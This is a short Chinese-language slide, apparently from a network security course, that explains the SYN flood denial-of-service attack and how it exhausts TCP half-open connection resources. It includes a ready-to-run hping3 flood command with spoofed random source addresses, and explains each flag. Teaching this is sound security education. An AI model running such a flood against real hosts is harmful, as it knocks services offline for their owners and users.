

# SYN洪水攻击
它是目前主流的DoS和DDoS攻击手段。
利用TCP的缺陷，收到服务器的SYN/ACK应答包后不发送ACK确认包，耗尽保存这些半连接状态的TCP资源耗尽。
使用hping3进行攻击：hping3 –p 80 –S --flood target-ip --rand-source
-S：使用SYN标志；--flood：尽可能按最快速率发包；--rand-source 使用随机源地址。